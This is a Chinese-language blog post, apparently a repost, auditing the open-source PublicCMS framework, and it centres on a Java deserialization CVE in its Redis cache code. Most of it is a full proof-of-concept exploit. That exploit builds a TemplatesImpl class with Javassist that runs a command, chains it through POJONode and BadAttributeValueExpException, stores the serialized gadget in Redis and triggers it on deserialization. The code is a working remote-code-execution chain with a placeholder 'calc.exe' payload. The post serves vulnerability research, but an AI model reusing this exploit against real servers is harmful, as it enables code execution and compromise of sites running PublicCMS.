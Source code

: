 在看cve列表的时候，当看到反序列化的时候是最感兴趣的，因为在查看cve之前，我是自己先把框架基本审计了一遍，有一些审计出来的漏洞和cve的基本相同，但是反序列化的只有上面的一个思路，没想到还有高手，于是赶紧跟进查看细节

这个cve作者的思路链接：

https://github.com/sanluan/PublicCMS/issues/76

查看之后疑问更多了，在问题中作者只说了在redis缓存中，但是放出来的细节只是一个demo，我们在代码中搜索一下，在redis缓存代码中，发现有反序列化操作

![开源框架PublicCMS的一次简单代码审计](http://cn-sec.com/wp-content/uploads/2024/10/2-1728448472.png)

这才恍然大悟，因为在之前自己审计代码的哪一遍当中，我也看到了这个地方，但是因为在publiccms当中没有发现有功能利用到redis，所以简单的认为这个地方没有办法利用，直接跳过了

结合作者简单的poc，利用链就是BadAttributeValueExpException->POJOnode->TemplatesImpl，但是核心触发的地方在redis进行读取的地方

重写POJOnode1方法

```
package org.example;import com.fasterxml.jackson.databind.node.POJONode;import java.util.GregorianCalendar;public class POJOnode1 extends POJONode {    public POJOnode1(Object v) {        super(v);    }    Object writeReplace() {        GregorianCalendar NodeSerialization;        return this;    }}
```

poc

```
public class public_cms {    public static void main( String[] args ) throws Exception {        ClassPool pool = ClassPool.getDefault();        CtClass ctClass = pool.makeClass("a");        CtClass superClass = pool.get(AbstractTranslet.class.getName());        ctClass.setSuperclass(superClass);        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);        constructor.setBody("{ Runtime.getRuntime().exec("calc.exe"); }");        ctClass.addConstructor(constructor);        byte[] bytes = ctClass.toBytecode();        TemplatesImpl templatesImpl = new TemplatesImpl();        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});        setFieldValue(templatesImpl, "_name", "boogipop");        setFieldValue(templatesImpl, "_tfactory", null);        POJOnode1 jsonNodes = new POJOnode1(templatesImpl);        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");        val.setAccessible(true);        val.set(exp,jsonNodes);        ByteArrayOutputStream barr = new ByteArrayOutputStream();        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);        objectOutputStream.writeObject(exp);        FileOutputStream fout=new FileOutputStream("1.ser");        fout.write(barr.toByteArray());        fout.close();        FileInputStream fileInputStream = new FileInputStream("1.ser");        System.out.println(serial(exp));        System.out.println(deserial());    }    public static byte[] serial(Object o) throws IOException, NoSuchFieldException {        ByteArrayOutputStream baos = new ByteArrayOutputStream();        ObjectOutputStream oos = new ObjectOutputStream(baos);        oos.writeObject(o);        oos.close();        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());        System.out.println(bytesToHex(baos.toByteArray()));// 设置Redis数据库连接参数        String host = "127.0.0.1";        int port = 6379;        String password = "";        Jedis jedis = new Jedis(host, port);//        jedis.auth(password);        jedis.set("test".getBytes(), baos.toByteArray());        return baos.toByteArray();    }    public static Object deserial() throws IOException, ClassNotFoundException {        // 设置Redis数据库连接参数        String host = "127.0.0.1";        int port = 6379;        String password = "";        Jedis jedis = new Jedis(host, port);        // jedis.auth(password);        byte[] data = jedis.get("test".getBytes());        if (data == null) {            throw new IOException("No data found in Redis for key 'test'");        }        System.out.println(bytesToHex(data));        ByteArrayInputStream bais = new ByteArrayInputStream(data);        ObjectInputStream ois = new ObjectInputStream(bais);        Object o = ois.readObject();        ois.close();        return o;    }    public static String bytesToHex(byte[] bytes) {        StringBuilder hexString = new StringBuilder();        for (byte b : bytes) {            // 将每个字节转换为两个十六进制字符            String hex = Integer.toHexString(0xFF & b);            if (hex.length() == 1) {                // 如果只有一个字符，前面补0                hexString.append('0');            }            hexString.append(hex);        }        return hexString.toString();    }    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{        Field field = obj.getClass().getDeclaredField(fieldName);        field.setAccessible(true);        field.set(obj, value);    }}
```
